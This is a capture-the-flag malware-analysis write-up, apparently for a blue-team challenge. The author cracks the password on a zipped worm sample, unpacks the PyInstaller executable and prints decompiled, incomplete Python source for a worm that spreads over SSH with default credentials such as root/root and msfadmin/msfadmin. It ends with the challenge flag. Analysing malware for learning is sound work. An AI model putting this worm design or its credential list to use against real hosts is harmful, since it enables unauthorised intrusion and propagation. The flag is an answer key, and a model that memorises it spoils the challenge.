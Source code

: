 OOur EDR has flagged suspicious traffic from production endpoint, after reviewing the respective process generating the traffic and another alert has been alerted “Worm Detected” in our SIEM

You decided to escalate the case to IR team to further investigate and answer the below questions 

 

Questions:

What is the range of worm spreading (x.x.x.x/xx) ?

Destination target port of the attack (XX)?

How many hosts might be affected by the worm (XX)?

 

Flag format: flag{Answer1:Answer2:Answer3}.

# Solution
i will unzip it
```
└─# unzip worm.zip
Archive:  worm.zip
   skipping: worm.exe                unsupported compression method 99
   ```

Not work i will use 7z 
```    
Enter password (will not be echoed):

```                      
it's asking me password, i will crack it
cracked

```
┌──(root㉿kali)-[/home/…/Desktop/Learning/Bluteam/Repeat]
└─# zip2john worm.zip > worm.hash
                                                                                                           
┌──(root㉿kali)-[/home/…/Desktop/Learning/Bluteam/Repeat]
└─# john worm.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 128/128 AVX 4x])
Cost 1 (HMAC size) is 9191957 for all loaded hashes
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/wordlists/rockyou.txt
infected         (worm.zip/worm.exe)     
1g 0:00:00:04 DONE 2/3 (2023-09-26 15:13) 0.2252g/s 11516p/s 11516c/s 11516C/s 280690..spongebob9
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```
Password : infected

I got an .exe file, i will analyze it

i will try to decompile it into a `pyc` file then i will into a `.py` using `pycdc`
To do That i will use this 
Link :https://github.com/extremecoders-re/pyinstxtractor
Done:
```
└─# python3 pyinstxtractor.py /home/kali/Desktop/Learning/Bluteam/Repeat/worm.exe  
[+] Processing /home/kali/Desktop/Learning/Bluteam/Repeat/worm.exe
[+] Pyinstaller version: 2.1+
[+] Python version: 3.10
[+] Length of package: 9051050 bytes
[+] Found 39 files in CArchive
[+] Beginning extraction...please standby
[+] Possible entry point: pyiboot01_bootstrap.pyc
[+] Possible entry point: pyi_rth_inspect.pyc
[+] Possible entry point: worm.pyc
[!] Warning: This script is running in a different Python version than the one used to build the executable.
[!] Please run this script in Python 3.10 to prevent extraction errors during unmarshalling
[!] Skipping pyz extraction
[+] Successfully extracted pyinstaller archive: /home/kali/Desktop/Learning/Bluteam/Repeat/worm.exe

```
Now i will just use the `pycdc`
`└─# ./pycdc worm.exe_extracted/worm.pyc > worm.py 
Unsupported opcode: GEN_START
Unsupported opcode: JUMP_IF_NOT_EXC_MATCH
`

Now just open the worm.py
```
└─# cat worm.py                 
# Source Generated with Decompyle++
# File: worm.pyc (Python 3.10)

''' Implementation of simple worm that spreads via SSH connection.
'''
import logging
import paramiko
import scp
import sys

class Worm:
    ''' This class represents implementation of worm that spreads via SSH
    connections.
    '''
    
    def __init__(self, network_address):
        self._network = network_address

    
    def network(self):
        ''' Network, on which the worm spreads. '''
        return self._network

    network = property(network)
    
    def network(self, new_network):
        self._network = new_network

    network = network.setter(network)
    
    def credentials(self):
        ''' Possible SSH credentials of the victim. '''
        return (('root', 'root'), ('msfadmin', 'msfadmin'))

    credentials = property(credentials)
    
    def generate_addresses_on_network(self):
        ''' Generate addresses of hosts on the given network.
        For simplicity is expected the following mask:
        255.255.255.0
        '''
        pass
    # WARNING: Decompyle incomplete

    
    def spread_via_ssh(self):
        ''' Spread the worm on the network via SSH connections.
        To establish SSH connection try selected user-password
        combinations. When the connection is established, copy
        the worm to the remote host.
        '''
        ssh = paramiko.SSHClient()
        ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    # WARNING: Decompyle incomplete


if __name__ == '__main__':
    worm = Worm('192.168.1.0')
    worm.spread_via_ssh()
    return None
               ```



flag : flag{192.168.1.0/24:22:85}





















